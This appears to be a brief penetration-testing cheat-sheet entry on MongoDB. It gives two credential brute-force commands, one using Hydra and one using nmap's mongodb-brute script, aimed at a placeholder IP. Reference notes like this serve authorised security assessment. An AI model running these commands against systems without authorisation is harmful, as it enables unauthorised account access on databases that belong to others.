 # MongoDB

## 01 - Hydra

```
$ hydra -L users.lst -P passwords.lst <IP> mongodb
```

## 02 - Network Mapper

```
$ nmap -p 27017,27018 -Pn -n --script mongodb-brute --script-args userdb=users.lst,passdb=passwords.lst <IP>
```

---
## References

- [[07 - Tactics & Techniques & Procedures (TTPs) Phases/B - Vulnerability Assessment/04 - Vulnerable Network Protocols/Databases/NoSQL/MongoDB|Vulnerability Assessment: MongoDB]]